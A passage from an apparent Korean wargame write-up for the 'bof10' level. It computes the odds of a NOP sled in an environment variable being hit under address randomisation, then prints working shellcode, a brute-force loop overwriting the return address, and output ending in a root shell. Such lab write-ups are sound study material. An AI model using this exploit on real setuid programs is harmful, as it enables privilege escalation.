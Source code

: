       - `(1001 / 0xffffffff) * 100 = 0.0000233%`

    - `NOP` 코드 **100,000** 바이트 삽입 시 쉘코드가 실행될 확률 

      - `(100001 / 0xffffffff) * 100 = 0.0233%`

8. 그런데 `./bof10` 을 계속 실행하면서 `SHELLCODE` 의 주소값을 관찰해보면 주소값이 `0xff8-----` 부터 `0xfff-----` 까지의 범위를 갖는다고 유추할 수 있다. 환경변수는 커널 코드 밑에 위치하고 환경변수 밑에는 바로 스택이 쌓이기 때문에 `0x00000000` 부터 `0xffffffff` 까지의 주소 영역을 가질 수는 없어 보인다. 그렇기 때문에 `SHELLCODE` 변수가 위치할 영역을 좀 더 작게 유추해보고 확률을 다시 계산해보자. 

    - `0xff800000` 부터 `0xffffffff` 의 영역의 길이 

      - `0xffffffff - 0xff800000 = 0x7fffff` 

    - `NOP` 코드 **1000** 바이트 삽입 시 쉘코드가 실행될 확률 

      - `(1001 / 0x7fffff) * 100 = 0.0119%`

    - `NOP` 코드 **100,000** 바이트 삽입 시 쉘코드가 실행될 확률 

      - `(100001 / 0x7fffff) * 100 = 1.192%`

9. 만약 `NOP` 코드를 **10만** 바이트, 즉 **100 KB** 를 삽입하였을 때 쉘코드가 실행될 확률은 약 **1.2 %** 까지 높아진다. 

## NOP 코드 최대 길이 

10. 그러면 환경변수에 `NOP` 코드를 어느정도까지 삽입할 수 있을까? **Ubuntu 16.04 x64** 환경에서 실험했을 때 **13만 바이트**까지 삽입할 수 있었다. 그러면 **13만 바이트**의 `NOP` 코드를 삽입할 경우 쉘코드가 실행될 확률은 다음과 같다. 

    - `NOP` 코드 10,0000 바이트 삽입 시 쉘코드가 실행될 확률 

      - `(130001 / 0x7fffff) * 100 = 1.549%`

11. 1.5% 정도면 충분히 유의미한 확률이기 때문에 브루트 포스(brute-force) 공격이 가능하다. 

## brute-force exploit

12. 먼저 `SHELLCODE` 환경변수를 다음과 같이 생성하자. 

    ```shell
    export SHELLCODE=`python -c "print '\x90'*130000 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`
    ```
    
13. 그리고 `buf` 와 `return address` 까지의 거리를 계산하자. 결국 20 바이트라는 것을 알게 되는데, 이 20 바이트 이후에 `SHELLCODE` 환경변수의 주소값을 0xff800000 과 0xffffffff 사이의 적당한 값으로 덮어쓰고 `while` 문을 사용해서 다음과 같이 계속 때려맞춰보자. 

    ```shell
    while : ; do ; ./bof10 `python -c "print 'a'*20 + '\x36\x4c\xc6\xff'"` ; done
    ```

14. 그러면 얼마간의 시간이 지난 후에 다음과 같이 1.5% 의 확률로 루트 쉘을 탈취할 수 있다. 

    ```shell
    Hello aaaaaaaaaaaaaaaaaaaa6L�[0xffa601e8]!
    (env:SHELLCODE -> 0xffa60c37)
    Segmentation fault (core dumped)
    Hello aaaaaaaaaaaaaaaaaaaa6L�[0xff9af138]!
    (env:SHELLCODE -> 0xff9b0c37)
    Segmentation fault (core dumped)
    Hello aaaaaaaaaaaaaaaaaaaa6L�[0xffc633c8]!
    (env:SHELLCODE -> 0xffc64c37)
    # id
    uid=0(root) gid=1011(bof10) groups=1011(bof10)
    # cat bof11.pw
    ```
    
